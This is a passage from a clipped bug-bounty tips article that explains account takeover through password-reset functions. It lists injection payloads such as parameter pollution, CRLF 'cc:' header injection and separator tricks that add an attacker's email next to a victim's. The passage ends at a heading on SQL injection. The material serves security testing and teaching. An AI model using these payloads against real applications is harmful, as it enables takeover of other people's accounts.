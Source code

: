 ```yaml
---
title: Bug Bounty Tips #7
url: https://www.infosecmatter.com/bug-bounty-tips-7-sep-27/
clipped_at: 2024-03-13 13:56:37
category: default
tags: 
 - www.infosecmatter.com
---
```



# Bug Bounty Tips #7

Here’s another dose of [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/) from the bug hunting community on Twitter, sharing their knowledge for all of us to help us find more vulnerabilities and collect bug bounties.

This is the 7th part and in each part we are publishing 10 or more tips. Let’s get to it!

## 1\. Account takeover using secondary email in password reset

By [@infosecsanyam](https://twitter.com/infosecsanyam)  
Source: [link](https://twitter.com/infosecsanyam/status/1308663822140551169)

This tip can help in finding account takeover vulnerabilities in a password reset function of a web application by supplying it with additional secondary email. Try the following payloads:

`GET /passwordreset`

-   Double parameter (aka. HPP / HTTP parameter pollution):  
    `email=victim@xyz.tld&email=hacker@xyz.tld`

-   Carbon copy:  
    `email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld`

-   Using separators:  
    `email=victim@xyz.tld,hacker@xyz.tld   email=victim@xyz.tld%20hacker@xyz.tld   email=victim@xyz.tld|hacker@xyz.tld`

-   No domain:  
    `email=victim`

-   No TLD (Top Level Domain):  
    `email=victim@xyz`

-   JSON table:  
    `{"email":["victim@xyz.tld","hacker@xyz.tld"]}`

Chances are that the web application will accept the secondary email address (hacker@xyz.tld) and in consequence send the reset link to both emails.

## 2\. Bypass email filter leading to SQL injection (JSON)
